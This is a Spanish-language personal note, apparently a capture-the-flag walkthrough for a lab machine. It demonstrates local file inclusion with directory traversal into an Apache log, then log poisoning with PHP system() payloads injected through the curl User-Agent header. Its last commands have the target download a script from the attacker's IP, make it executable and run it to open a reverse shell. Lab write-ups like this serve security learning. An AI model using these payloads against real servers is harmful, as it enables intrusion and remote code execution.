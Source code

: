 #tecnicas 
La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```

![[Pasted image 20240612233112.png]]

Por tanto, una vez visto esto, podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```

![[Pasted image 20240612233124.png]]

Pero ahora si dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```

![[Pasted image 20240612233133.png]]

Una vez hecho esto, montamos un servidor http con python y nos compartimos un fichero para enviarnos una reverse shell:
![[Pasted image 20240612233138.png]]

![[Pasted image 20240612233143.png]]
Y entonces ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell:
![[Pasted image 20240612233150.png]]

Y habremos recibido la reverse shell:

![[Pasted image 20240612233153.png]]